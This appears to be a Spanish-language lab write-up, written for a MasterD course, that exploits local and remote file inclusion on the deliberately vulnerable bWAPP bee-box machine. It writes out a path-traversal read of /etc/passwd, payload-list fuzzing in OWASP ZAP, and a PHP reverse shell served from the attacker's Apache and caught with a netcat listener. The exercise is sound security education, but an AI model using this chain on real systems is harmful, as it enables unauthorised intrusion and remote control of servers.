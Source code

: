 ```yaml
---
title: MTD - File Inclusion
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Medio]
---
```



¡Hola! 
Hoy vamos a realizar el primer ejercicio del módulo de Hacking de aplicaciones Web, trabajando sobre la máquina `beebox`.
En este ejercicio realizaremos un `File inclusion`.

### Herramientas usadas: 
- **OWAS-ZAP Proxy**
- **Fuzz**
- **Scripting**


* * *

# PRIMEROS PASOS
En primer lugar usaremos `OWAS-ZAP` como proxy para indexar las páginas web y poder realizar un análisis más detallado.
La herramienta viene preinstalada en nuestro `kali linux` por lo tanto solamente tendriamos que abrirlo desde el gestor de aplicaciones y acto seguido configurar el `proxy` en nuestro navegador.

<img src="assets/HTB/bWAPP/proxy.png">

Acto seguido pasamos entrar a la web de nuestro máquina `bee-box`, en nuestro caso tendríamos la IP 10.0.2.5.


Como podemos ver en este `login` tenemos las credenciales ya dadas, en este caso `bee` de usuario y `bug` como contraseña.
Dentro de la aplicación web podemos encontrar en el apartado `A7` el ejercicio de `Remote & Local File Inclusion (RFI/LFI)`.


* * * 

# EN LA APLICACIÓN WEB
Una vez dentro de la aplicación web podemos ver un selector de lenguajes, a simple vista parece algo simple.

<img src="assets/HTB/bWAPP/proxy.png">

Cuando seleccionamos un lenguaje, podemos ver que la URL de nuestra aplicación web cambia. 
Esto sería un vacío donde podriamos realizar nuestras técnicas de intrusión.

Observamos que dentro del link añade una particularidad, `?language=lang_en.php` donde podemos comenzar a intentar escalar privilegios usando `../../etc/passw` para subir entre carpetas dentro del servidor web y podriamos ver si nos devuelve el fichero sensible.

<img src="assets/HTB/bWAPP/etc_pass.png">

Si analizamos el código fuente de la aplicación web, podemos ver que nos ha devuelto el fichero completo con sus directorios y nombres de usuario

<img src="assets/HTB/bWAPP/etc_pass.png">

Esta información podemos usarla para aplicarle ténicas de `fuzzing` con `OWAS-ZAP`. Eso lo veremos en el siguiente paso.

* * *

# USO DE LA APLICACIÓN
La aplicación que vamos a usar es `OWAS-ZAP` con técnicas de `fuzzing` cargando diccionarios, en este caso usaremos el diccionario del repositorio `AllPayloadThings` usando el fichero de `File Inclusion`

<img src="assets/HTB/bWAPP/usopayload.png">

Una vez configurado el fichero que vamos a usar, lanzamos el fuzzer y analizaremos los datos hallados.
Podemos observar en el `Fuzzed 7` un fichero `etc/apache2/` lo que podría hacernos ver una apertura de seguridad muy seria.

En nuestra máquina kali linux tenemos el repositorio de `webshells` con la cual podemos hacer una `shell` remota hacia nuestra máquina aprovechando la vulnerabilidad del servidor apache.

```bash
cd /usr/share/webshells/php
```

Usaremos el repositorio `php` ya que sabemos que el motor de la aplicacion web está en el lenguaje `php`.
Dentro del directorio podremos encontrar diferentes tipos de webshell a usar. Nosotros cargaremos una `reverseshell`.
En este caso tendremos que revisar el source code del fichero para configurar la dirección IP y puerto que usaremos.

```bash
nano php-reverse-shell.php
```
Una vez configurado nuestro archivo, tenemos que copiar en el directorio `/var/www/html`.

```bash
cp php-reverse-shell.php /var/www/html
```
Una vez configurado nuestro fichero a usar, podremos proceder a colocar nuestro enlace, previamente iniciando un servicio de apache2 y poniendo nuestra máquina a la escucha y cargaremos nuestra webshell desde el mismo link de la aplicación web.

```bash
service apache2 start
```

```bash
nc -lvnp 44044
```

Probaremos con cargar dentro del URL de la aplicación web nuestra `webshell` 

`http://nuestraIPdelamáquina/php-reverse-shell.php`

Y cuando vayamos hacia nuestra `shell` podremos observar que hemos conectado una remote shell hacia nuestra máquina y estamos dentro de la máquina `beebox`.

```bash
whoami
```
Podemos observar que estamos en el directorio /home/root/ de `beebox`

<img src="assets/HTB/bWAPP/webshell.png">


* * *

*__Esto es un ejercicio con fines didácticos realizado para MasterD.__*
